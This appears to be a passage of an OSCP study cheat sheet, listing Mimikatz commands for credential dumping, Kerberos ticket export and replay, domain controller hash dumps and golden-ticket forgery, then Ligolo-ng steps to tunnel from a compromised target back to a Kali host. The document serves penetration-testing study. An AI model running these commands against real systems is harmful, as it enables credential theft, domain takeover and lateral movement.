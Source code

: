 ### Mimikatz
- Can be used to dump creds, but it can also be used to gain Domain Admin tickets and impersonate them.  Obviously great for privesc.
- Steps:
	- `mimikatz.exe`
	- `privilege::debug` - if you run and don't get 20, it won't work
	- `sekurlsa::tickets /export` - to export tickets on machine. 
		- we can impersonate the ticket.  Recommend using an admin ticket...duh kerberos::ptt $ticket
	- `lsadump::lsa /patch` - If you are on a DC you can dump the hashes
	- `lsadump::lsa /inject /name:krbtgt` - can also create a golden ticket on a DC:
		- kerberos::golden /user: /domain: /sid: /krbtgt: /id:
		- you can access any machine in the domain
			- `misc::cmd`
			- `\\MACHINE1 cmd.exe`

## Port Forwarding, Mirroring

### Ligolo
[Guide](https://medium.com/@Thigh_GoD/ligolo-ng-finally-adds-local-port-forwarding-5bf9b19609f9)
**Basic usage**
From Kali:
1. `sudo ip tuntap add user pop mode tun ligolo`
2. `sudo ip link set ligolo up`
3. `sudo ip route add $targetIP.0/24 dev ligolo`
4. `sudo ./proxy -selfcert`

From Windows Target (agent file):
1. `.\ligolo.exe -connect $kaliIP:11601 -ignore-cert`

OR

From Linux Target (agent file):
1. `./ligolo -connect $kaliIP:11601 -ignore-cert`

Then from Kali:
1. `session`
2. `1`
3. `Start`
	1. `listener_add --addr 0.0.0.0:5555 --to 127.0.0.1:6666`
	This allows you to access port 5555 on target from 127.0.0.1:6666 (kali machine). 

 **Local Port Forwarding:**
	- `ip route add 240.0.0.1/32 dev ligolo`
	- **240.0.0.1** will point to whatever machine Ligolo-ng has an active tunnel on.

### Other tools
While the OSCP Lab discusess other tools such as socat, sshuttle, and plink, I found that [Ligolo-ng](https://github.com/nicocha30/ligolo-ng/releases) was able to provide all of the same functionality and more simply. That said, I am linking a guide discusess the other tools. Here is frankyyano's [Pivoting & Tunneling guide](https://medium.com/@frankyyano/pivoting-tunneling-for-oscp-and-beyond-33a57dd6dc69). 
